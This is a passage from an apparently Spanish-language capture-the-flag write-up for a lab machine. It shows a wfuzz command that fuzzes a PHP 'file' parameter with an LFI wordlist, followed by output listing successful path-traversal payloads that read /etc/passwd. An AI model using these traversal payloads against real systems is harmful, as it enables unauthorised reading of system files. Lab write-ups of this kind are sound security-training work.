 <img src="/assets/images/THL-writeup-tortillaPapas/Captura10.png">
</p>

Y ahora que ya encontramos el parámetro correcto, podemos utilizar un wordlists de **Seclist** que tiene varios payloads para aplicar **LFI**, siendo el wordlists `/seclists/Fuzzing/LFI/LFI-Jhaddix.txt`.

Probémoslo:
```bash
wfuzz -c --hc=404 --hh=26574 -t 200 -w /usr/share/wordlists/seclists/Fuzzing/LFI/LFI-Jhaddix.txt -u "http://192.168.1.190/agua.php?file=FUZZ"
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://192.168.1.190/agua.php?file=FUZZ
Total requests: 929

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                      
=====================================================================

000000338:   200        507 L    1588 W     27943 Ch    "....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//etc/passwd"     
000000335:   200        507 L    1588 W     27943 Ch    "....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....
                                                        //etc/passwd"                                                                                                                
000000341:   200        507 L    1588 W     27943 Ch    "....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//etc/passwd"                       
000000353:   200        507 L    1588 W     27943 Ch    "....//....//....//etc/passwd"                                                                                               
000000347:   200        507 L    1588 W     27943 Ch    "....//....//....//....//....//....//....//....//....//etc/passwd"                                                           
000000350:   200        507 L    1588 W     27943 Ch    "....//....//....//....//....//....//etc/passwd"                                                                             
```